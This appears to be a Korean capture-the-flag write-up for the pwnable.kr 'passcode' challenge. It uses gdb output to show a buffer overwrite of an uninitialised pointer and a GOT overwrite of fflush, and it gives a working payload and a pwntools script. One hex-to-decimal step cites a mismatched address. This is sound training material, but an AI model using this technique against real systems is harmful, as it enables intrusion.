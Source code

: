 * `<login+3>`에서 총 40byte의 버퍼를 생성하고, `<login+24>`에서 passcode1를 `ebp-0x10`에 할당하고 `<login+70>`에서 passcode2를 `ebp-0xc`에 할당한다.

* 그렇다면 `name[100]`는 ebp-0x70, passcode1는 ebp-0x10이다. 이 사이의 공간은 총 96byte이므로 name의 마지막 4byte로 passcode1를 덮어 씌울 수 있다는 것이다.

```
r <<< `python -c 'print("A"*96+"B"*4)'`
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/180968458-e7ab3847-8924-45a6-9956-b09d34d2b4be.png" width = 580>
</p>

* 'A' 96개, 'B' 4개를 넣었을 때 `name[100]`에 잘 들어가 있는 것을 확인 할 수 있다. `name[96]부터 name[99]`까지는 'B'가 들어가 있다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/180968773-309d4c6d-0e7e-4ea9-bd60-6e539d39f9b8.png" width = 580>
</p>

* 분명 passcode1 `scanf` 전인데 이미 'BBBB'가 들어가 있는 것을 알 수 있다. 이것을 이용하여 **system("/bin/cat flag)**를 호출 하면 될 것 같다.

* 위를 응용해 `scanf("%d", passcode1);`에서 passcode1를 **fflush의 GOT 주소**를 **system("/bin/cat flag)**의 시작주소로 변경하면 해결!

```armasm
(gdb) disassemble login
    0x08048593 <+47>:    call   0x8048430 <fflush@plt>
(gdb) x/3i 0x8048430
   0x8048430 <fflush@plt>:      jmp    DWORD PTR ds:0x804a004
   0x8048436 <fflush@plt+6>:    push   0x8
   0x804843b <fflush@plt+11>:   jmp    0x8048410
```

> `0x804a004`가 fflush의 GOT 주소

```armasm
(gdb) disassemble login
   0x080485e3 <+127>:   mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:   call   0x8048460 <system@plt>
   0x080485ef <+139>:   leave
   0x080485f0 <+140>:   ret
```

> `0x080485e3`가 system 실행 주소

* 하지만, `scanf("%d", passcode1);`에서 10진수로 받으므로, **0x080485ea**를 10진수로 바꾸면 **134514147**이다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/180972349-513f4bbb-278f-4125-847e-7baf5b1dc6c7.png" width = 280>
</p>

```
(python -c 'print "\x90"*96 + "\x04\xa0\x04\x08" + "134514147"'; cat) | ./passcode
```

```Python
from pwn import *
p = ssh("passcode","pwnable.kr",2222,"guest")
path = "/home/passcode/passcode"
msg = "\x90"*96 + "\x04\xa0\x04\x08" + "134514147"
payload = [path]
s = p.run(payload)
s.sendline(msg)
s.interactive()
```
